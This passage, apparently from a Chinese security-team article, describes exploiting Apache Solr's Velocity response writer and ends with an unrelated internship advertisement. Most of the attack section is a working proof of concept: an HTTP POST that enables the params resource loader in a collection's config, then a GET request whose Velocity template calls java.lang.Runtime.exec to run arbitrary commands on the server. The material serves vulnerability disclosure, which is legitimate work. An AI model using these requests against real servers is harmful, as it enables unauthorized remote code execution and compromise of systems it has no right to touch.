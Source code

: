 _**_**No.4  
**_**_

_**漏洞利用**_

确认成功后即可先通过 bp 向对应路径发送请求修改 params.resource.loader.enabled 配置为 true，请求如下：

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXmYtalPWWMsG7dPmzCN6Gfdjfds6lxMRibazXuQggFfDV3tKTy79ntOZOKOj6Kfodc7g4QqetjmWg/640?wx_fmt=png)

修改完配置以后通过 poc 即可执行任意命令如图：

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXmYtalPWWMsG7dPmzCN6GfJdcxoPPgWVjar2Thq8rrHqrN5IOj4AuPjJ7RdLVYnLibiaicsCzwOjQ6g/640?wx_fmt=png)

_**_**No.5  
**_**_

_**Poc 如下**_

// 修改配置 poc

```
POST /solr/集合名/config HTTP/1.1
Host: ip:\*\*\*\*
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

// 远程代码执行 poc

```
GET /solr/solr\_sample/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27ls%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+\[1..$out.available()\])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: localhost:\*\*\*\*
Host: ip:\*\*\*\*
Content-Length: 0
```

_**招聘启事**_

安恒雷神众测 SRC 运营（实习生）  
————————  
【职责描述】  
1\.  负责 SRC 的微博、微信公众号等线上新媒体的运营工作，保持用户活跃度，提高站点访问量；  
2\.  负责白帽子提交漏洞的漏洞审核、Rank 评级、漏洞修复处理等相关沟通工作，促进审核人员与白帽子之间友好协作沟通；  
3\.  参与策划、组织和落实针对白帽子的线下活动，如沙龙、发布会、技术交流论坛等；  
4\.  积极参与雷神众测的品牌推广工作，协助技术人员输出优质的技术文章；  
5\.  积极参与公司媒体、行业内相关媒体及其他市场资源的工作沟通工作。  
【任职要求】   
 1.  责任心强，性格活泼，具备良好的人际交往能力；  
 2.  对网络安全感兴趣，对行业有基本了解；  
 3.  良好的文案写作能力和活动组织协调能力。
